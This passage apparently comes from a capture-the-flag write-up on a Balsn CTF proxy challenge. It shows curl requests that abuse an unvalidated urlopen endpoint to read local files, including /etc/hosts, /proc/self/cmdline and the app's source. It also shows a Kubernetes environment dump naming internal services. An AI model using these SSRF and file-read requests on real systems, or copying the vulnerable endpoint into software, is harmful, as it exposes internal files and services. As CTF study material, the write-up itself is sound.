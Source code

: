 ```
KUBERNETES_PORT=tcp://10.44.0.1:443
KUBERNETES_PORT_443_TCP=tcp://10.44.0.1:443
KUBERNETES_PORT_443_TCP_ADDR=10.44.0.1
KUBERNETES_PORT_443_TCP_PORT=443
KUBERNETES_PORT_443_TCP_PROTO=tcp
KUBERNETES_SERVICE_HOST=10.44.0.1
KUBERNETES_SERVICE_PORT=443
KUBERNETES_SERVICE_PORT_HTTPS=443
LANG=C.UTF-8PYTHON_VERSION=3.10.0
PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
PWD=/opt/workdir
PYTHON_GET_PIP_SHA256=c518250e91a70d7b20cceb15272209a4ded2a0c263ae5776f129e0d9b5674309
PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/3cb8888cc2869620f57d5d2da64da38f516078c7/public/get-pip.py
PYTHON_SETUPTOOLS_VERSION=57.5.0
SECRET_SERVICE_20A91E_PORT=tcp://10.44.3.240:39307
SECRET_SERVICE_20A91E_PORT_39307_TCP=tcp://10.44.3.240:39307
SECRET_SERVICE_20A91E_PORT_39307_TCP_ADDR=10.44.3.240
SECRET_SERVICE_20A91E_PORT_39307_TCP_PORT=39307
SECRET_SERVICE_20A91E_PORT_39307_TCP_PROTO=tcp
SECRET_SERVICE_20A91E_SERVICE_HOST=10.44.3.240
SECRET_SERVICE_20A91E_SERVICE_PORT=39307
SECRET_SERVICE_20A91E_SERVICE_PORT_HTTP=39307

firebird@ac96ad13d621:/proc/self$
```

```
curl -cv --output - http://proxy.balsnctf.com/query?site=file:///etc/hosts
10.40.0.6       chall-v1-76d9c69984-rzj2b
```

*Ummm it is Kubernetes on GKE? What is **SECRET_SERVICE_20A91E**?*

Checked other challenges and they are not hosted on Kubernetes, that means this challenge is something with Kubernetes... interesting!

So where is the sourcecode? With a bit of guessing we found the source code at `/proc/self/cwd/main.py` (somewhere in `/opt/workdir`)

```
http://proxy.balsnctf.com/query?site=file:///proc/self/cmdline

/usr/local/bin/python/usr/local/bin/gunicornmain:app--bind0.0.0.0:8000--workers5--worker-tmp-dir/dev/shm--worker-classgevent--access-logfile---error-logfile-
```

```py
curl -cv --output - http://proxy.balsnctf.com/query?site=file:///proc/self/cwd/main.py
import urllib.request

from flask import Flask, request

app = Flask(__name__)


@app.route("/meow")
def meow():
    return 'meow?'


@app.route("/query")
def query():
    site = request.args.get('site')
    text = urllib.request.urlopen(site, timeout=5).read()
    return text

```